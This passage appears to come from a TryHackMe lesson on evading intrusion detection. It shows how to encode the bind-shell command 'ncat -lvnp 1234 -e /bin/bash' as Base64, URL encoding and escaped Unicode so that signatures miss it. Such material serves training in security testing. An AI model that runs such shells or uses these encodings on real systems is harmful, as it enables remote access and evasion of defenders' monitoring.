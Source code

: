 #### Encode to Base64 format

You can use one of the many online tools that encode your input to Base64. Alternatively, you can use `base64` commonly found on Linux systems.

```shell
pentester@TryHackMe$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
        
```

`ncat -lvnp 1234 -e /bin/bash` is encoded to `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==`.

#### URL Encoding

URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash,  and underscore are not affected. You can refer to [section 2.4 in RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4) for more information.

One utility that you can easily install on your Linux system is `urlencode`; alternatively, you can either use an online service or search for  similar utilities on MS Windows and macOS. To follow along on the  AttackBox, you can install `urlencode` by running the command `apt install gridsite-clients`.

```shell-session
           pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
        
```

`ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.

#### Use Escaped Unicode

Some applications will still process your input and execute it  properly if you use escaped Unicode. There are multiple ways to use  escaped Unicode depending on the system processing the input string. For example, you can use [CyberChef](https://icyberchef.com) to select and configure the Escape Unicode Characters recipe as shown in the image below.

1. Search for *Escape Unicode Characters*
2. Drag it to the *Recipe* column
3. Ensure you a check-mark near *Encode all chars* with a prefix of `\u`
4. Ensure you have a check-mark near *Uppercase hex* with a padding of 4

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f330a782dc93a8b227fc93231aa1649a.png)

If you use the format `\uXXXX`, then `ncat -lvnp 1234 -e /bin/bash` becomes `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade  detection, assuming the target system will interpret it correctly and  execute it.

### Encrypt the Communication Channel
